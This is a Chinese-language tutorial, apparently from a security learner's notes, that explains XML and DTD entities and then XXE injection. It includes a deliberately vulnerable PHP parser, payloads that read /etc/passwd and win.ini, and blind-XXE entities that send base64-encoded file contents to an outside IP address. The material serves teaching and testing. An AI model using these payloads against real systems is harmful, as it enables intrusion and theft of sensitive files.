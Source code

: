# XML&DTD

XML被设计用来传输和存储数据,这里提一下xml与html的区别:HTML 旨在显示信息，而 XML 旨在传输信息

而DTD定义 XML 文档的合法构建模块,它使用一系列的合法元素来定义文档结构,DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。

XML文档结构包括`XML声明`、`DTD文档类型定义（可选）`、`文档元素`

![image-20221220110557830](images/1.png)

## XML文档元素构建

XML文档其实喝Html的写法类似

所有的 XML 文档（以及 HTML 文档）均由以下简单的构建模块构成：

- 元素
- 属性
- 实体
- PCDATA
- CDATA

### 元素

元素可以说文本，可以是其他元素，可以为空

```
<body>body text in between</body>
<message>some message in between</message>
```

### 属性

提供有关元素的额外信息

```
<img src="computer.gif" />
```

### 实体

实体是用来定义普通文本的变量。实体引用是对实体的引用。

### PCDATA

PCDATA 的意思是被解析的字符数据（parsed character data）。PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。

### CDATA

CDATA 的意思是字符数据（character data）。CDATA 是不会被解析器解析的文本。

## XML语法规则

- 所有XMl元素必须有一个闭合标签
- XMl标签对大小写敏感
- XMl必须正确嵌套
- XML属性值必须加引号
- 实体引用
- 在XMl中，空格会被保留

## DTD

XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，他就是长得下面这个样子

```
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```

DTD可以理解为对XML的一个定义，以上DTD定义了xml的根元素是message，message下有一些字元素分别是receiver，sender，header，msg，如何对这些字元素的类型进行了定义，所以最后我们写xml的时候就应该是如下的写法，要满足DTD定义的格式

```
<message>
<receiver>Myself</receiver>
<sender>Someone</sender>
<header>TheReminder</header>
<msg>This is an amazing book</msg>
</message>
```

除了在 DTD 中定义元素（其实就是对应 XML 中的标签）以外，我们还能在 DTD 中定义实体(对应XML 标签中的内容)，毕竟XML 中除了能标签以外，还需要有些内容是固定的

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >]>
```

这里定义的根元素是foo，但是定义的类型是ANY，说明可以接受任何元素（其实就是说可以是任意的子元素，要求没有那么死了），但是呢，我们还定义了一个实体名叫xxe，值为test（我们可以用&对实体进行引用）

来看看这种的xml应该怎么写

```
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

对于实体，分为内部实体和外部实体，刚才我们直接在内部定义好了称作为内部实体，当我们引入这个XML以外的文件称作为外部实体

示例

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///User/DawnT0wn/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

可以看到通过一个file协议去读电脑上的一个dtd文件，在里面定义好了我们的xxe实体

不同语言支持的协议类型

![image-20221220114103608](images/2.png)

### 一般实体和参数实体

**1.通用实体**

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

**示例代码：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```

**2.参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 `%实体名;` 引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

**示例代码：**

```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```

# XXE

XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是什么？XML外部实体。

看了上面的东西后，可能对XXE有一点基本的感觉了，既然能去用相应的协议去读dtd文件，那有没有可能可以直接去读系统敏感文件，比如说/etc/passwd

## 有回显的XXE

接下来我们来测试一下XXE漏洞，写一个能解析XML的代码

```
<?php
highlight_file(__FILE__);
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
echo $creds;

?>
```

payload

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///etc/passwd"> ]> 
<creds>&goodies;</creds>
```

![image-20221220114830284](images/3.png)

php://filter也可以

![image-20221220114951765](images/4.png)

## 无回显的XXE

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://47.93.248.221:2333?p=%file;'>">
```



```
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://47.93.248.221/test.dtd">
%remote;%int;%send;
]>
```



参考链接

https://xz.aliyun.com/t/3357#toc-4

https://cloud.tencent.com/developer/article/2090744

[xxe实验踩坑记录 | m3lon](https://m3lon.github.io/2019/01/20/xxe实验踩坑记录/)

https://xz.aliyun.com/t/2249